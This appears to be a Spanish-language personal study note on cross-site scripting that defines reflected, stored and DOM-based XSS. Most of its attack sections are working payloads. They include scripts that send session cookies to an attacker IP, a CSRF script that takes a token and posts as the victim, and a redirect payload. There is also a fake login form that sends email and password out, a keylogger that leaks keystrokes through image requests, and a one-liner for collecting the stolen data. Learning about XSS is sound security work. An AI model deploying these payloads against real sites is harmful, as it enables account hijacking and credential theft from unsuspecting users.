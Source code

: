 ----
- Tags: #ataque #basic #practica #xss 
----

# ¿ Que es? 

### Es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocentimiento. Esta vulnerabilidad permite al atacanta robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

---

# Tipos de vulerabilidades XSS 

- ## Reflejado (Reflected)
### Este tipo de **XSS** se produce cuando los datos proporcionados por le usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario. 

- ## Almacenado (Stored)
### Este tipo de **XSS** se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada ve que se carga la página. 

- ## DOM-Based
### Estipo tipo de **XSS** se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Document Object Model). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

---

- # Fines 

### Los fines de esta vulnerabilidad se basan tanto en el contexto, como en el atacante y sus fines. Pero se podrian realizar multiples ataques.

- ## Intentar robar cookie de sesión 

### El fin de esto claramente es realizar un **cookie hijacking** para secuestrar la sesión del usuario que visite la sección vulnerable a **XSS** de la página.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/get_cookie.js'></script>

#### Y levantar un servidor en python con nuestro archiv 'get_cookie.js' malicioso: 

> [!bug]
> ```javascript
var request = new XMLHttpRequest();
request.open('GET', `http://192.168.1.38/?cookie=${document.cookie}`);
request.send();

#### También podríamos hacerlo de una manera más facil 
> [!bug]
> ```html
> <script>document.location="http://{our_ip}/?cookie="+document.cookie</script>

### Hablamos de un **INTENTO** de robo de sesión ya que si la cookie tiene la opción httpOnly checkeada, seria imposible. 

- ## Realizar acciones como un usuario ( [[CSRF - (Cross-Side Request Forgery)]] )

### En este ejemplo, interceptamos con [[Burpsuite]] la petición en la sección vulnerable a **XSS** la cual estaba en una página al hacer una publicación, por lo que se realizaba un **POST** a la ulr tramitando la data ingresada por el usuario a la par que un campo extra el cual se alojaba en la respuesta del servidor por lo que en caso de que fuese dinamico, lo primero que hacemos es capturar este para posteriormente realizar un post como el usuario.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/make_post.js'></script>
> ```

#### Y levantar un servidor en python con nuestro archiv 'make_post.js' malicioso: 

> [!bug]
> ```javascript
const domain = "http://localhost:10007/newgossip";
const req1 = new XMLHttpRequest(); 
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send(); 
>
let response = req1.responseText; 
let parser = new DOMParser();
let doc = parser.parseFromString(response, 'text/html')
let token = doc.getElementsByName('_csrf_token')[0].value; 
>
const data = `title=ME+GUSTA+LA+CIBERSEGURIDAD&subtitle=Este+laburo+es+una+mierda&text=Estoy+re+caliente&_csrf_token=${token}`
>
const req2 = new XMLHttpRequest(); 
req2.open('POST', `http://localhost:10007/newgossip`, false)
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
req2.send(data);


- ## Redirigir a páginas de phishing propias

### El fin de esto es redirigir al usuario, no hace falta que sea a una página de phishing, podria ser cualquier recurso, por lo que en el campo vulnerable se deberia introducir: 

> [!bug]
> 
> ```html
><script> window.location.href = 'url'</script>
>```

- ## Intentar realizar un inicio de sesión

### En la sección vulnerable  podriamos ingresar un codigo malicioso jugando con JavaScript para intentar crear un formulario de inicio de sesión el cual nos mande las credenciales ingresadas por el usuario a un recurso nuestro.

```html
<div id="formContainer"></div>

<script> 
	var email;
	var password;
	var form = '<form>' + 'Email: <input type="email" id="email" required>' + '<br><br>' + 'Contraseña: <input type="password" id="password" required>' + '<br><br>' + '<input type="button" onclick="submitForm()" value="Ingresar"' + '</form>';
	
	document.getElementById("formContainer").innerHTML = form;
  
	function submitForm(){
		email = document.getElementById("email").value;
		password = document.getElementById("password").value;
	    console.log("Funciona", email, password)
		fetch(`http://192.168.1.38/?email=${email}&password=${password}`);
	}
</script>
```

- ## Realizar un 'key logger'

```html
<script>
	let keys = ""; 

	document.onkeypress = function(e){
		e = e || window.event; 
		keys += e.key;
		keys = keys.replace(" ", ","); 
		var i = new Image(); 
		i.src = `http://192.168.1.38/${keys}`; 
	};
</script>
```

### Con este script capturariamos las pulsaciones del usuario, y las mandariamos a una ip en particualar, donde podriamos tenerun servidor de python y filtrando por esta data que nos llega `python -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'`. 
